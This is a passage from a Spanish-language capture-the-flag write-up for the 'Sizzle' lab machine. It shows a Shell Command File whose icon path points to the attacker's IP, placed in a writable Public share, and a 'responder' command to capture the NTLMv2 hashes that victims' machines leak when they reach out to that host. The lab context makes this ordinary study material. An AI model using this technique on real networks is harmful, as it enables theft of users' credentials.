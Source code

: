 ![sfc1](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/527a59b642bb1b88e565dabbf7c02b794f539e2d/_includes/CTFIMG/Sizzle/sfc1.png)

Como se aprecia tenemos permisos de escritura sobre el directorio del usuario Public. Además luego de vigilar el fichero podemos notar que está siendo eliminado:

![sfc2](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/527a59b642bb1b88e565dabbf7c02b794f539e2d/_includes/CTFIMG/Sizzle/sfc2.png)

En base a esto creare un fichero SFC (Shell Command Files):

```bash
[Shell]
Command=2
IconFile=\\10.10.14.27\evil.ico
[Taskbar]
Command=ToggleDesktop
```

Como se ve se esta solicitando un fichero llamado evil.ico desde nuestra dirección IP asignada. Con esto, antes de depositarlo en **`/Users/Public`** iniciaremos responder para capturar el hash NTLMv2:

```bash
responder -I tun0
```
